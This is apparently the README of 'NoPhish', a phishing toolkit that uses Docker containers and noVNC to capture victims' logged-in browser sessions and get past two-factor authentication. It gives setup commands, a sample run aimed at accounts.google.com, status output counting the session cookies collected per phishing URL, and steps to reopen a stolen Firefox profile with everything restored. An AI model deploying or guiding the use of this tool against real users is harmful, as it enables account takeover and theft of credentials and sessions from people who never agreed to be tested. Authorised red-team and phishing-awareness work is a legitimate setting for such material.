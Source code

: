 # NoPhish
 
Another phishing toolkit which provides an docker and noVNC based infrastructure. The whole setup is based on the initial article of [mrd0x](https://mrd0x.com/bypass-2fa-using-novnc/) and [fhlipzero](https://fhlipzero.io/blogs/6_noVNC/noVNC.html).

A detailed description of the setup can be found here - [Another phishing tool](https://powerseb.github.io/posts/Another-phishing-tool/)

## Installation

Install the required python modules:

```console
pip install lz4
```

Install the setup (which will create the required docker images):

```console
setup.sh install
```

## Execution

The setup offers the following parameters:

```console
Usage: ./setup.sh -u No. Users -d Domain -t Target
         -u Number of users - please note for every user a container is spawned so don't go crazy
         -d Domain which is used for phishing
         -t Target website which should be displayed for the user
         -e Export format
         -s true / false if ssl is required - if ssl is set crt and key file are needed
         -c Full path to the crt file of the ssl certificate
         -k Full path to the key file of the ssl certificate
         -a Adjust default user agent string
```

A basic run looks like the following:

```console
./setup.sh -u 4 -t https://accounts.google.com -d hello.local 
```

During the run the following overview provides a status per URL how many cookies or session informations have been gathered.

```console
...
[-] Starting Loop to collect sessions and cookies from containers
    Every 60 Seconds Cookies and Sessions are exported - Press [CTRL+C] to stop..
For the url http://hello.local/c18d058717000d3012ac5f492c11 :
-  0  cookies have been collected.
-  5  session cookies have been collected.
For the url http://hello.local/b083a984e423ef0215a541337692 :
-  0  cookies have been collected.
-  5  session cookies have been collected.
For the url http://hello.local/0b61f4b831dfe15b811c6b880351 :
-  0  cookies have been collected.
-  5  session cookies have been collected.
For the url http://hello.local/28e09fec384967e8c4c05b80e1eb :
-  0  cookies have been collected.
-  5  session cookies have been collected.
```

Please note that the tool will export all cookies / session information even when it is not related to a successfull login.

## Using profile export
If you are using the complete FireFox profile export, you can just call firefox with -profile like that:
`& 'C:\Program Files\Mozilla Firefox\firefox.exe' -profile <PathToProfile>\w396hdsl.default-release\`
Everything is getting restored, including the latest site.


## CleanUp

During a run the script can be terminated with `ctrl` + `c` - all running docker container will then be deleted. To fully remove the setup run `setup.sh cleanup`.
